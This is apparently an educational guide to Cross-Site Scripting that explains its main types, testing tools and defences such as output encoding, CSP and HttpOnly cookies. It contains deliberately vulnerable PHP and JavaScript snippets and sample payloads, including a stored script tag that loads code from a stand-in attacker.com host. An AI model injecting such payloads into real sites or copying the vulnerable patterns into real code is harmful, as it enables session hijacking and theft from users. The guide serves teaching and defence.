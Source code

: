 ### ## What is XSS?

Cross-Site Scripting (XSS) is a web security vulnerability that allows an attacker to inject malicious scripts (typically client-side JavaScript) into web pages viewed by other users. The victim's browser, trusting the website, executes the script. This allows the attacker to bypass the Same-Origin Policy and perform actions on behalf of the user.

**The Goal of an XSS Attack:**
* **Session Hijacking:** Stealing session cookies to impersonate the user.
* **Keylogging:** Capturing sensitive user input like passwords or credit card numbers.
* **Phishing:** Redirecting users to malicious websites or displaying fake login forms.
* **Website Defacement:** Modifying the content of the web page.



---

### ## Core Types of XSS

#### **1. Reflected XSS (Non-Persistent)**
The malicious script is part of the request (usually a URL) and is "reflected" back by the server in the response. The attacker must trick the victim into clicking a crafted link.

* **Vulnerable Code (PHP):**
    ```php
    echo "You searched for: " . $_GET['query'];
    ```
* **Attack URL:**
    `http://example.com/search?query=<script>alert('Reflected XSS')</script>`

---

#### **2. Stored XSS (Persistent)**
The malicious script is permanently stored on the server (e.g., in a database) and is served to every user who visits the affected page. This is the most damaging type.

* **Vulnerable Scenario:** A user profile page where the "biography" field is not sanitized.
* **Attack Payload (stored in the biography):**
    ```html
    <p>Just a friendly user.</p>
    <script src="[http://attacker.com/malicious.js](http://attacker.com/malicious.js)"></script>
    ```
    Every person who views this profile will execute `malicious.js`.

---

#### **3. DOM-based XSS**
The vulnerability lies entirely in the client-side JavaScript code. The server is not involved. The script takes data from a user-controllable source (like a URL fragment) and writes it unsafely into the page's DOM.

* **Vulnerable Code (JavaScript):**
    ```javascript
    var userLang = window.location.hash.substring(1);
    document.write("Your language is: " + userLang);
    ```
* **Attack URL:**
    `http://example.com/settings#<img src=x onerror=alert('DOM XSS')>`

---

### ## Advanced XSS Concepts & Contexts

* **Blind XSS:** A type of stored XSS where the payload executes in a different application or context, typically a backend system used by an administrator. An attacker injects a payload into a public form (like a "Contact Us" page), and the script fires when an admin reviews the submission in their private portal.

* **XSS in File Uploads:** An attacker can upload a file that contains JavaScript, such as a crafted SVG image or an HTML file, which executes when a user views the file in their browser.

* **XSS in JavaScript Frameworks:** Modern frameworks like React and Angular often have built-in XSS protections (like automatic encoding), but vulnerabilities can still be introduced through improper use of functions that handle raw HTML (e.g., `dangerouslySetInnerHTML` in React).

---

### ## Defensive Tools & Methodology

Security professionals use specific tools to identify and confirm XSS vulnerabilities.

* **Intercepting Proxies:** Tools like **Burp Suite** and **OWASP ZAP** are used to intercept and modify HTTP requests. This allows a tester to manually inject payloads into any part of the request (parameters, headers, etc.) to see how the application responds.

* **Static Analysis Security Testing (SAST):** SAST tools (e.g., SonarQube, Snyk) scan an application's source code to find potential vulnerabilities, including "taint analysis," which tracks user input to see if it reaches a dangerous function (a "sink") without being sanitized.

* **Dynamic Analysis Security Testing (DAST):** DAST tools (e.g., Nessus, Acunetix) crawl and test a running web application, automatically injecting payloads to find vulnerabilities without needing access to the source code.

---

### ## 🛡️ How to Prevent XSS (Mitigation Strategies)

Preventing XSS requires a defense-in-depth approach.

* **1. Output Encoding (Primary Defense):**
    This is the most crucial defense. **Encode all user-supplied data** before it is rendered in the HTML output, based on the context. This tells the browser to treat the data as text, not as executable code.
    * **HTML Body:** Use HTML entity encoding (e.g., `<` becomes `&lt;`).
    * **HTML Attributes:** Use HTML attribute encoding.
    * **JavaScript:** Use JavaScript escaping.

* **2. Content Security Policy (CSP):**
    CSP is a browser-level security header that acts as a powerful second line of defense. It lets you define a whitelist of trusted sources for scripts, styles, and other resources, effectively blocking the execution of unauthorized scripts.
    * **Example HTTP Header:**
        `Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com; object-src 'none';`

* **3. Use Secure Frameworks & Libraries:**
    Modern web frameworks (React, Angular, Vue, Django, Ruby on Rails) have built-in, context-aware XSS protections. Use them correctly and avoid functions that bypass these protections.

* **4. Set the `HttpOnly` Cookie Flag:**
    To mitigate the primary risk of XSS (session hijacking), set the `HttpOnly` flag on session cookies. This prevents client-side JavaScript from accessing the cookie.

* **5. Implement Trusted Types:**
    A newer browser feature that helps prevent DOM-based XSS by forcing developers to sanitize data before it's passed to dangerous functions like `innerHTML`.

* **6. Web Application Firewall (WAF):**
    A WAF can provide a layer of protection by filtering requests based on common XSS attack patterns. However, it should be seen as a defense-in-depth measure, not a replacement for secure coding practices.
